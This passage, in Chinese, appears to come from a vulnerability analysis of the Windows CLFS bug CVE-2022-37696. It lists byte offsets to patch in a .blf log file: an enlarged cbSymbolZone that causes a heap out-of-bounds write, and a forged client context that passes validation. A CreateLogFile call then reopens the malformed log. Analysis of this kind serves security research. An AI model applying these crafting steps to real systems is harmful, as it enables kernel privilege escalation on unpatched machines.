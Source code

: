 **cbSymbolZone**

`0x1B98: |F8 00 00 00| => |4B 11 01 00|		cbSymbolZone		0x1114B`
改大`cbSymbolZone`，以使得`AddLogContainer`时，会造成堆越界写

**Client Context**

`0x2390: |00 00 00 00 00 00 00 00| => |B8 1B 00 00 30 1B 00 00|`
该字段的修改是为了伪造的`FakeClientContext`能过检测

![FakeClientContext](/img/CVE-2022-37696/FakeClientContext.png)
在`CLFS_LOG_STATE eState`字段设置为了`CLFS_LOG_SHUTDOWN 0x20`

### 畸形 SignaturesOffset 的影响

构造了一个畸形的`.blf`，然后再次打开时，会对于该`blf`进行解析

`HANDLE v51 = CreateLogFile(L"LOG:C:\\Users\\Public\\MyLog", GENERIC_READ | GENERIC_WRITE | DELETE, FILE_SHARE_WRITE | FILE_SHARE_READ, NULL, OPEN_ALWAYS, NULL);`
